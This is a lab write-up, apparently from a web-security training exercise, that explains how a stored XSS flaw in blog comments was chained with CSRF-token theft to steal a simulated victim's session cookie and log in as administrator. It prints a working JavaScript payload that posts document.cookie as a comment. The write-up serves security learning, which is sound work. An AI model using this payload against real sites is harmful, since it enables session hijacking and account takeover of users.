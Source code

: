 # Exploiting cross-site scripting to steal cookies

## Challenge
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

The ideal solution of this lab require us to use the **Burp Collaborator** which is a paid software.\
The alternative solution I followed for this challenge is to simulate a `CSRF` attack along with `XSS` attack. This is a less subtle solution as it will print the simulated user's cookie as a blog comment which will be visible to anyone and everyone who visits the site.

### Solve
-  Like the previous challenge, the comment box is vulnerable to `XSS` attacks, as we can run raw javascript there.
- The goal is to steal the victim's session cookie (specifically the `session ID`), which is readily accessible via JavaScript using `document.cookie`.
- To post a comment on the victim's behalf, the attacker must bypass the **Cross-Site Request Forgery (CSRF) protection**. This is a hidden, randomized `csrf` token included in the comment form.
- The CSRF token value is accessed using JavaScript: `document.getElementsByName('csrf')[0].value`. This allows the attacker to obtain the token and include it in their forged request.

- The HTTP request used to post a comment is analyzed to determine all required parameters for a successful request: `csrf`, `post ID`, `comment`, `name`, `email`, and `website`.

> The final payload created to post the simulated user's session cookie.
```js
  <script>
  window.addEventListener('DOMContentLoaded', function(){
    var token = document.getElementsByName('csrf')[0].value;
    var data = new FormData();

    data.append('csrf', token);
    data.append('postId', 5);
    data.append('comment', document.cookie);
    data.append('name', 'victim');
    data.append('email', 'test@test.com');
    data.append('website', 'http://www.test.com');

    fetch ('/post/comment', {
      method: 'POST',
      mode: 'no-cors',
      body: data
    });
  });
</script>
```
- After submitting the required parameters and going back to the blog, we see the `victim` user's `secret` and `session` parameters.
- Using the **Burp Suite** we open a blog on this website but pass the `victim`'s cookie instead of our own.
- We are successfully logged in as `administrator`.\
*Note: The `postId` parameter must correspond to the article number in which we are executing the attack.*


### New Learnings
- **The true purpose of Cross-Site Scripting (XSS)**: It is a powerful vector used to execute arbitrary JavaScript and access client-side data like the user's session cookie (`document.cookie`), not just to display an alert box.
 
- **How Session Hijacking works**: By stealing the victim's session cookie, an attacker can use it to impersonate the victim and gain unauthorized access to their account.
 
- **The necessity of chaining vulnerabilities**: In a protected environment, a single vulnerability (like XSS) may be insufficient. Attackers often chain multiple flaws (XSS and CSRF) to bypass security tokens and achieve their final objective.

### Resources
[Community Solution by z3nsh3ll](https://www.youtube.com/watch?v=N_87S9XVy0w&t=906s)
